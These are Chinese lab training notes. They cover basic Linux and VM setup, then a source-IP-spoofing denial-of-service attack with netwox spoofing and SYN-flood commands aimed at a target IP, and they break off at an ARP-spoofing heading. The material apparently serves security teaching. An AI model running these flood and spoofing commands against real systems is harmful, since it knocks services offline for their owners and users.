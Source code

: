 # 实训笔记

1. 安装软件：apt-get install xxx

2. 查看文件：cat 路径

3. vi操作：

   1. 进入插入模式：按i

   2. 退出：按  ==：== ，: w filename （输入 「w filename」将文章以指定的文件名filename保存）

      : wq (输入「wq」，存盘并退出vi)

      : q! (输入q!， 不存盘强制退出vi)

4. export PATH=$PATH:/usr/sbin

5. 桥接模式：虚拟机和物理机在一个子网中

   ![image-20200713113641074](实训笔记.assets/image-20200713113641074.png)

6. NAT模式：虚拟机在物理机的==私有网段==中

7. host文件路径：C:\Windows\System32\drivers\etc\hosts



***





## 协议攻击

1. 源ip地址伪装的dos攻击：

   > 原理：伪造源IP（躲避防火墙）发送大量TCP连接请求包，造成服务器瘫痪

   1. 提权至root用户：sudo su -  root
   2. Ubuntu监听端口：tcpdump -i eth0 tcp port 80 -n -nn
   3. 其中apache2：service apache2 start
   4. 伪装固定ip、MAX请求：netwox 52 -E "0:1:2:3:4:5" -I "伪装ip" -e "00:0c:29:83:36:d7" -i "目的ip"
      1. -E 伪造源MAX
      2. -I 伪造IP
      3. -e 目标mac（随便填）
      4. -i 目标ip
   5. 随机泛洪攻击：netwox 76 -i  "ipadr" -p  -port

2. ARP（IP和MAC映射协议）欺骗中间人攻击：
